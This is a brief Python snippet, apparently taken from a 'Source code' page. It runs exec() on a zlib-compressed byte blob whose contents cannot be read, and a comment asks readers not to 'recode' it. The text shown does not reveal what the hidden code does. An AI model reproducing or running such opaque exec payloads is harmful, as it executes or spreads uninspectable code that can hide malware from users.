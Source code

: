 from zlib import decompress as dp;exec(dp(b'x\x9c\xed\x94mo\x9aP\x14\xc7\xdf\xfb)N\xfaF\xc8V#\x8f\xeaM\xfa\x86f\x9b\xebj\xcd\\\x82\x94\xa6!En\x0bSD\x01\xab\xec\xd3\xef\x9c[ 7\xae\xa9\x1f`\x9a\x80\\\xf8\xfd\xefy\xbc\xa7S\xe6\x15\xeb\x00\xfe\x9e\xf3,\x85\x9cow\xbc(\x0bH\xd2M\x96\x97\xf0\xc2\xcb\x0e?,\xf8\xa6|\x836y\xb2.\x95\x8bM\xb2\x81d]\x94O\xabU+\xb9P\x05\x91\xac7;"r^\x14\xc0\xd7%\xcf\xa1\xcc\xe0\xcb!)\x1b\xe0m\xe7\xa2*\xc4\x12\xff{\x1c\xbf*j\'\x08\xc2]\xb2*q\xe3 \xe8\x05A\x94,\xca xx\xffmX\x95\xbcP\x1e\x94\xd5S\x1aFO\xe02p\xe1\x13(.\\\x82\xab\xaa\x8a\x8d\x8bA\x1fo\x1a\xdd\x0c\xbcl\xf534t\xc6 #:C:CZ\xd3qe\x91F\x1fHX\xc5\xa0"\xacB\xac\xa2MG\xb4\x97I\x98D\xed\x19\xec\x89\xda#\xb5Gj\xa0\x11E&\x89\xd4$r\xc6`F\xe4\x0c\xc9\x19\x92\x960\xdb\xd0\xc2S\xd2j\xb2&d\x10\x92&DM\x88\x9a!\xf1\xba\x1cL\xc4 ""B"\xa2`\xfazc\xbb\xbe\xdagIU0(HU\xa0\xaa@\xd5\x88D\x9aY;D\x0b\xe3\x83\x18\xf5\xc6W\x9d<7\x84\xd6\xaeu\x1fY\x11\xb86 +\x96\xfa\xa8\xf6"\xbe\xc8"\xaetw\xe5\xf3\xe5\xb0\xab>*Ge\x8d\x19\xc4\xa4\x8fQ\x1fSlC\xaa+\x19\x1e\x1eY\xe2\x0c8\x91\x1cIN\xb9\xa5Z\xe9\x14\x8f-\xc5$+\x0e\x0c\x0e\xa48\xa0\xe2\x80\nC\xa4J\xc4\xd3\xf4\xccP\xc2\xa7\x0c\xa6\x84O\x11\x9f\x12n7\xe1\xd3\x83a\x9d\xda\x9d\xcc\xeb\xc7UX2X\x12\xb5DjI\xf9\xb1E\xfd\xeb\xf8\xac\xb6n\xff\xa6J\xed\x85\xb6Y\xbf\x0b\xbb\xbe\x17\xaf\xee\xf7WW\xdd\x96;Jd\xca %C)\x1aJ\xc9\x1dQ\x03\xca\x91H\xe9\xa9\xba\xd9F\x93D\xd2i\xa3\xa3#0g0\'|\x8e\xf8\x9c\xca$\xf2n7\xadG7S\xc2\'\x0c&\x84O\x10\x9f n6\xa5\xd2\x9a\x8e\xb5$z\xcc`L\xf4\x18\xe91\xe5\x88\x9c\x15n\x88f2\xa5\xe4\x9c\n\x9a\xea:\xd4\xeaxe\x8f\xb6\x0c\xb6Dn\x91\xdc\x92G\xa2\xa6v]\x07\xbb1\xd6\x1c$9v\x9f\x81OR\x1f\xa5>I\xadvH\xc8\'\xc8a\xe0\x10\xe6 \xe6\x90/m\xe7\xbc\x93\xfe\xe3|\x8a\xee\x1a\xd5\xa0\xd5N\x96w\xba\x02\x8f\xd0y^\x9e\xe7\xe5y^\x9e\x98\x97\xeb\x9b\xd7\xf0\x97S\xf9\xdeW\xcd\xf7\xee\xfa\x8b\xca\xd9\x84\x9e\xf3\xbaX\xff|\xf1u\xb7?\xd5]\xd3\x9fO2z\xfeq}\x93E\xe3\xd9~\xf1\'{\xbd5\x1c+\xd4o\xd2\xc8\xbb\xfb}\xef\xcdV\xb7\xe9\x1d\xee3\x8a}o\xb2\x8b\xc6q\xff{\xb2\xdcE\xdf\\3\xba^\x9eg\xf1\x7f?\x8b\xd5\xbf\xcc\xa5\xa6\x97').decode())

#Encryption codes, don't recode please >_
